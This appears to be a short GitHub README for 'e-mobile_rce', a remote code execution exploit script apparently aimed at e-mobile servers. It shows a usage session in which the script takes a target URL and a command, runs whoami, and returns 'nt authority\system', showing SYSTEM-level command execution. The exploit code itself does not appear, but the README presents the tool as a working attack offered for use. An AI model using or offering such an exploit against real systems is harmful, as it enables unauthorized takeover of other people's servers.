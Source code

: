 # e-mobile_rce
e-mobile_rce exp,代码垃圾 中文乱码
```
python emobile.py
input url: http://xx.xxx.xx.xx:xx/
input commond: whoami
nt authority\system
```

![](1.png)